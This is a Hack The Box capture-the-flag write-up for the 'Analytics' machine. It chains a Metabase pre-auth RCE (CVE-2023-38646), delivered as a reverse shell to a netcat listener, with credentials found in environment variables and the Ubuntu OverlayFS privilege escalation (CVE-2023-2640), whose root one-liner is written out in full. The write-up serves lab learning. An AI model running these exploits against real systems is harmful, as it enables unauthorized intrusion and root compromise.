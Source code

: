 ![Analytics](https://github.com/amalcew/htb-writeups/assets/73908014/1abe9705-be90-416b-9277-2177f11bc99b)

## Reconnaissance & port scanning

Initial scan revealed two open ports:

```bash
# Nmap 7.94SVN scan initiated Sat Feb 24 02:38:33 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.233
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received syn-ack (0.065s latency).
Scanned at 2024-02-24 02:38:33 CET for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 24 02:38:43 2024 -- 1 IP address (1 host up) scanned in 9.52 seconds

```

Host was added to `/etc/hosts`

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Navigating through the page:

![01-initial_page](https://github.com/amalcew/htb-writeups/assets/73908014/9711e2c6-79c3-4b29-b8cc-0369ffd91b8d)

Website contains a login page hosted on subdomain `data.analytical.htb`. Host was added to `/etc/hosts`.

![02-metabase_login](https://github.com/amalcew/htb-writeups/assets/73908014/8a1cf6dd-ebca-4d15-9c68-280001a4900b)

Login page presents a service called "Metabase". Searching for this name on Google we can find, that this is a business intelligence tool. 

## Initial foothold & user privileges escalation

At the moment, specific version of the service is unknown, but searching the internet for potential exploits we can find a writeup about [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396?gi=daef5538392e).
This vulnerability allows to obtain RCE without any authentication, having only `setup-token`. The writeup suggests checking for exposed `/api/session/properties`:

![03-exposed_properties](https://github.com/amalcew/htb-writeups/assets/73908014/3548d214-f6f2-4010-8177-f0b3199a2bdc)

Having the token, we need to use it to gain RCE. Searching the web for this CVE, I've find the [proof of concept](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646) from original analysts, who discovered the vulnerability.

Let's try to execute this exploit on this Metabase instance using Burp:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/42dcf703-2da3-4e43-9aa0-48b239d2b418)

The payload consist of POST request containing reverse shell encoded using base64. Before exploit was executed, `netcat` instance was started to listen for incoming connections.

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
Connection received on xx.xx.xx.xx 42042
bash: no job control in this shell
a6ee5f61d27e:/$
```

It took me a while to escalate privileges to standard user account, as I focused on attempts to read contents of found H2 database. Searching for potential credentials to the database, I've encountered a creds stored as env variales:

```bash
a6ee5f61d27e:/plugins$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=a6ee5f61d27e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/plugins
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=A*****************
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Trying those credentials with `ssh` we can easily access the standard user account:

```bash
> ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Feb 24 09:57:58 PM UTC 2024

  System load:  0.27587890625     Processes:                321
  Usage of /:   94.0% of 7.78GB   Users logged in:          1
  Memory usage: 29%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:    10.10.11.233

  => / is using 94.0% of 7.78GB
  => There are 147 zombie processes.

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 24 21:50:22 2024 from xx.xx.xx.xx
metalytics@analytics:~$ 
```

and read the user flag:

```bash
metalytics@analytics:~$ cat user.txt 
0cae************************7cf5
```
## Root privileges escalation and final flag

Escalation to root was pretty straightforward, but required some enumeration of the machine. As `sudo -l` and `linpeas.sh` enumeration tool did not return any significant information, I've started searching for something related to distro version:

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Apperantly, Ubuntu 6.2.0-25 is vulnerable to [CVE-2023-2640]([https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a)https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a)

Trying the example payload, root is easily achievable:

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

and root flag can be read:

```bash
root@analytics:~# cat /root/root.txt 
a17d************************46d2
```
